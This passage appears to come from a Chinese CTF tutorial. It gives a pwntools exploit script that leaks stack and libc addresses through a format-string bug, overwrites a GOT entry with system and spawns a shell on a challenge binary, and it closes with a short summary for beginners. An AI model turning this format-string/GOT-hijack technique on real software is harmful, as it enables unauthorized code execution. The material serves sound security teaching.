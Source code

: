 ```plain
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

ru('username:\n')
sl(p64(0x404020))
ru('password:\n')
sl(p64(0x404020))
sl('/bin/sh\x00')

ru('start')
sl('%15$p-%13$p')

ret=int(r(14),16)-0xc8
leak('ret ',ret)
ru('-')

libc_base=int(r(14),16)-0x24083
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
system1 = system&0xffff
system2 = (system>>16)&0xff


addr1=ret&0xffff
leak('addr1 ',addr1)
leak('system ',system)
sla('start','%'+str(addr1)+'c%15$hn')
sla('start','%'+str(0x4020)+'c%43$hn')
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
#duan()
sla('start','%'+str(system2)+'c%18$hhn')
sla('start','exit')

itr()
```

## 总结

劫持GOT表不是一种独立的方法，要配合其他的漏洞进行利用，这里我配合着例题对这种利用方式进行了详细的解析，希望能够帮到正在入门的师傅们
